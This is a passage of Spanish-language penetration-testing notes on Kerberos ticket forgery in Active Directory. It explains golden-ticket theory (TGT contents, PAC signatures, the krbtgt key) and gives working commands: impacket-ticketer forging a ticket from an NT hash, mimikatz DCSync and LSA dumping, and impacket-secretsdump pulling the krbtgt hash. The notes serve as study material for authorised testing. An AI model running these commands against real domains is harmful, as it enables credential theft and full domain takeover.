 	```
	Ejemplo:
	```bash
	impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c  -domain-sid 'S-1-5-21-1969309164-1513403977-1686805993' -domain NAGOYA-IND -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
	```
- 

## Golden ticket 
### Teoría
Cuando se genera un TGT, este se genera con la información del usuario como 
- Identidad del cliente.
- Clave de sesión
- Timestamps (inicio y expiración del ticket).
- Identidad del KDC.
- Flags del ticket (renovable, desplegable...)
- PAC(Privilege Attribute Certificate) incluye información útil para la autorización (privilegios del usuario):
	- SID Usuario
	- SIDs de los grupos
	- Privilegios del usuario
	- Información del a cuenta
	- Timestap (cuando fue creado el PAC)
	- Datos de validación (permite a los  servicios verificar la autenticida del PAC)

El PAC incluye dos firmas: 
- Clave del KDC (`krbtgt`): Para la firma principal del KDC
- Clave del Dominio: Para la firma adicional del DC
El TGT contiene toda la información dada, junto con el PAC firmado. A su vez está firmado por la clave `krbtgt`.
Sin embargo, aunque no tengamos acceso a la clave del Dominio, en la práctica por defecto el KDC no verifica las firmas del PAC en los TGTs, por lo que podemos usar como clave de firma del Dominio la propia `krbtgt`. Para algunos pentesters la clave krbtgt es la **clave más importante del sistema**

![[Pasted image 20241119102616.png]]
### Obtención `krbtgt` (hash NTML de la cuenta `krbtgt`)
Para obetner este hash necesitamos privilegios de **administrador de dominio** o acceso a una cuenta con permisos de **replicación del directorio** (por ejemplo, **DCSync**).
#### Mimikatz (DCSync)
Debemos tener acceso administrativo o privilegios de replicación en el dominio
```powershell
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:dominio.local /user:krbtgt
```
#### Mimikatz 
- Podría ocurrir que las credenciales de `krbtgt` estuvieran almacenadas en algún equipo distinto al DC, por lo que podríamos obtenerlas del siguiente modo: 
	```powershell
	mimikatz.exe
	privilege::debug
	lsadump::lsa /patch
	```
#### Desde NTDS.dit
Si tenemos credenciales de acceso administrativo al dc. Podemos hacerlo como se muestra en el apartado de dumpeo ó utilizanodo `secretsdump`
```powershell
impacket-secretsdump -just-dc-user krbtgt corp.com/$username:$password@$dcip -outputfile hashKrbtgt.txt
```